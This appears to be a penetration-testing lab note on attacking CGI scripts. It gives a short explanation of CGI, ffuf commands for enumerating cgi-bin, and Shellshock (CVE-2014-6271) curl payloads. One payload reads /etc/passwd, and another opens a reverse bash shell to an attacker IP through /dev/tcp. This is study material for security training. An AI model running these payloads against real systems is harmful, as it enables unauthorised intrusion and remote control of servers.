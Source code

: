 A [Common Gateway Interface (CGI)](https://www.w3.org/CGI/) is used to help a web server render dynamic pages and create a customized response for the user making a request via a web application. CGI applications are primarily used to access other applications running on a web server. CGI is essentially middleware between web servers, external databases, and information sources. CGI scripts and programs are kept in the `/CGI-bin` directory on a web server and can be written in C, C++, Java, PERL, etc. CGI scripts run in the security context of the web server. They are often used for guest books, forms (such as email, feedback, registration), mailing lists, blogs, etc.

![[Pasted image 20250211054842.png]]
### Footprinting + Enumeration
```bash
ffuf -w ~/opt/wordlists/directory-list-2.3-medium.txt -u http://10.129.204.227:8080/FUZZ
```

```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.205.27/cgi-bin/FUZZ.cgi

ffuf -w /usr/share/wordlists/dirb/small.txt -u http://10.129.205.27/cgi-bin/FUZZ.cgi
```

### Exploitation
#### Shellshock ([CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271))
```bash
curl -i http://10.129.204.231/cgi-bin/access.cgi
```

```bash
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```

```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.15.155/4443 0>&1' http://10.129.205.27/cgi-bin/access.cgi
```